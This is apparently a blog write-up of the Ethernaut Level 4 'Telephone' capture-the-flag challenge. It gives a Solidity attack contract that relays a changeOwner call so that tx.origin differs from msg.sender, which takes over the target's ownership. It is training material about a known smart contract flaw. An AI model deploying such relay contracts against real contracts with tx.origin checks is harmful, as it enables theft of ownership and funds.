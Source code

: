 +++
title = 'Ethernaut Level 4 - Telephone'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Abuse the fact that tx.origin and msg.sender are different'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

// tx.origin := Initial address of transaction chain
// msg.sender := previous address in transaction chain
// Solution: Make a contract to chall `changeOwner` 
// tx.origin (player) != msg.sender (contract)
interface Telephone {
    function changeOwner(address _owner) external ;
}


contract hackTelephone {
    Telephone originalContract;

    constructor(address _addr){
        originalContract = Telephone(_addr);
    }

    function hack(address _targetaddr) public {
        originalContract.changeOwner(_targetaddr);
    }
}


```